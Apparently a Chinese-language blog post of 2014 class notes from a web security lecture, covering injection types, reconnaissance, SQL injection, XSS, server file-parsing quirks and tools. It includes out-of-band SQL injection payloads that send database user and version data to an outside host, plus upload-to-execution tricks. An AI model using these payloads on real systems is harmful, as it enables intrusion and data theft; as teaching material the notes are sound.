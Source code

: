 ```yaml
---
title: Secure Programming 2014-12-16
category: note
slug: secure-programming-20141216
date: 2014-12-16
---
```

2014/12/16 Secure Programming Class Note

今天的課程請到 Orange Tsai 大大，講題為 Web Security。

-  三大面向（交集：思路）
   -  技術
   -  經驗
   -  技巧

[SQL Injection 練習網站][1]

## Injection Flaw

-  SQL injection
-  cross site script
-  code injection
-  LDAP injection
-  XPATH injection
-  command injection

## 資訊搜集

-  Web Fingerprints
   -  wappalyzer, whatweb, recon-ng
-  經驗
   -  Header
   -  Python 遇到錯的編碼容易掛掉
   -  錯誤頁面
   -  Google
      -  "site:www.nctu.edu.tw ext:php"
   -  Strust2
      -  ?actionError=1
   -  RESTful
      -  `http://xxxx/show/id/1`
      -  `http://xxxx/show.php?id=1`
-  Dictionary Attack
   -  路徑
   -  /admin
   -  /phpmyadmin
   -  /sourcecode.zip

## SQL Injection

-  Union based
-  Error based
-  Blind based
-  Time based
-  Out of band（讓 database 把東西丟出來）
   -  Oracle
      -  `request.utl_http('http://orange.tw/'\|\|(select user from dual))`
   -  MySQL (along with Windows)
      -  UNC path (\\127.0.0.1\c$)
      -  load_file(concat('\\\\',version(),'.orange.tw\cxx'))
         -  5.1.3.orange.tw
      -  dnslogger -> skullsecurity nbtools

## Cross Site Scripting (XSS)

-  <http://pwn.orange.tw>
-  svg onload
-  Tweetdeck XSS Emoji

## PHP 語言鬆散特性

-  Wordpress 漏洞
-  2014 台大學生會長選舉網站 preg_match() === 0
-  Apache feature
   -  "hacker.php.xxx" works
-  Nginx + PHP (舊版)
   -  又稱 Nginx 文件解析漏洞（但其實不是 Nginx 的漏洞）
      -  圖檔嵌入 PHP code
      -  big.jpg/.php
      -  <http://pastebin.com/robots.txt>
         -  Content-Type = text/plain
      -  <http://pastebin.com/robots.txt/a.php>
         -  Content-Type = text/html
-  IIS + ASP (IIS 6 以下)
   -  分號 parsing 錯誤
      -  "xxx.asp;a.jpg"
   -  名稱為 ".asp" 結尾的 directory 其下的檔案都會被當成 ASP 來執行
      -  /a.asp/avatar.jpg 當成 asp 執行
-  Java
   -  sessioin fixation
   -  "1.jsp" 不可執行但 "1.jsp;" 可以

## Tools

-  Firefox (OSWASP mantra)
   -  Cookie Manageer
   -  FoxyProxy
   -  HackBar
   -  Modify Headers
      -  Include shellshock testing each HTTP request
   -  Tamper Data
   -  Wappalyzer
   -  X-Forwarded-For
      -  127.0.0.1
-  Burp Suite

[1]: http://sqli.exp.tw
